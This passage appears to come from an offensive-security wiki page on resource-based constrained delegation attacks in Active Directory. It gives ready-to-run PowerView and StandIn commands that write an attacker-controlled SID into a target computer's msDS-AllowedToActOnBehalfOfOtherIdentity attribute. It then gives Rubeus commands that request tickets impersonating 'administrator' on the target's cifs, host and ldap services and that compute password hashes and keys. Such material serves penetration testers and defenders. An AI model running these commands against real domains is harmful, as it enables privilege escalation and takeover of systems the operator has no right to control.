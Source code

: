 PowerSploit's [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) module is an alternative that can be used to edit the attribute ([source](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/)).

```bash
# Obtain the SID of the controlled account with SPN (e.g. Computer account)
$ComputerSid = Get-DomainComputer "controlledaccountwithSPN" -Properties objectsid | Select -Expand objectsid

# Build a generic ACE with the attacker-added computer SID as the pricipal, and get the binary bytes for the new DACL/ACE
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# set SD in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the target comptuer account
Get-DomainComputer "target$" | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

FuzzSecurity's [StandIn](https://github.com/FuzzySecurity/StandIn) project is another alternative in C# (.NET assembly) to edit the attribute ([source](https://github.com/FuzzySecurity/StandIn#add-msds-allowedtoactonbehalfofotheridentity)).

```powershell
# Obtain the SID of the controlled account with SPN (e.g. Computer account)
StandIn.exe --object samaccountname=controlledaccountwithSPNName

# Add the object to the msDS-AllowedToActOnBehalfOfOtherIdentity of the targeted computer
StandIn.exe --computer "target" --sid "controlledaccountwithSPN's SID"
```

---
**Step 2**: obtain a ticket (delegation operation) :ticket: 

[Rubeus](https://github.com/GhostPack/Rubeus) can then be used to request the TGT and "impersonation ST", and inject it for later use.

```powershell
# Request a TGT for the current user
Rubeus.exe tgtdeleg /nowrap
# OR - Request a TGT for a specific account
Rubeus.exe asktgt /user:"controlledaccountwithSPN" /aes256:$aesKey /nowrap

# Request the "impersonation" service ticket using RC4 Key
Rubeus.exe s4u /nowrap /impersonateuser:"administrator" /msdsspn:"cifs/target" /domain:"domain" /user:"controlledaccountwithSPN" /rc4:$NThash
# OR - Request the "impersonation" service ticket using TGT Ticket of the controlledaccountwithSPN
Rubeus.exe s4u /nowrap /impersonateuser:"administrator" /msdsspn:"host/target" /altservice:cifs,ldap /domain:"domain" /user:"controlledaccountwithSPN" /ticket:$kirbiB64tgt
```

The NT hash and AES keys can be computed as follows.

```powershell
Rubeus.exe hash /password:$password
Rubeus.exe hash /user:$username /domain:"domain.local" /password:$password
```
